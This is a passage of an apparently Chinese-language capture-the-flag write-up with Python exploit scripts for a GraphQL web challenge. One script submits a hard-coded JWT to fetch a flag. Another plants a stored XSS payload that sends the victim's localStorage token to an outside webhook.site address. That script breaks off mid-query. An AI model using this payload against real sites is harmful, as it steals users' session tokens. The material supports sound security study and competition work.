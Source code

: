 ```py
    id = get_selfid()
    create_playlist()
    report(id)

def get_flag(token):
    sess.headers.update({'authorization': token})
    data = {"query": "mutation { flag }"}
    res = sess.post(f"{host}/graphql",json=data,proxies=proxies,verify=False) 
    if res.status_code == 200:
        flag = json.loads(res.text)["data"]["flag"]
        print(f"[+] flag: {flag}")

if __name__ == "__main__":
    # main()
    get_flag("eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2ODE2NDAzNDAsInN1YiI6ImYwOTcwMmE1LTViYTItNDU4MC04ZTc1LTQ4M2EwNmNhMWY2MiIsImlhdCI6MTY4MTYzNjc0MH0.yO1_E_-lMYzf1YZAR3mSKu18PAoMcznDGe_ZqG-1YXo")
```

## Subs
大佬的 exp，还需要进一步研究。。
solve.py
```py
import requests
import json
import os
from urllib.parse import quote

# host = "http://localhost:7008"
host = "http://c3365128-2e0e-4a33-bcd3-f7ffc8f33790.subs.putlocker.chal.pwni.ng:20002"
payload = (
    "<img src=x: onerror='location=`https://webhook.site/ed852d2a-b167-49da-9159-d48909b980bd?token=`+encodeURIComponent(localStorage.token)'>"
    + os.urandom(8).hex()
)


def graphql(query, variables={}, token=""):
    r = requests.post(
        host + "/graphql",
        json={"query": query, "variables": variables},
        headers={
            "Authorization": token,
        },
    )
    return r.json()


random_episode_id = graphql(
    """
query {
    recentEpisodes {
        id
    }
}
"""
)["data"]["recentEpisodes"][0]["id"]

token = graphql(
    """
mutation($payload: String!) {
    register(name: $payload, password: $payload)
```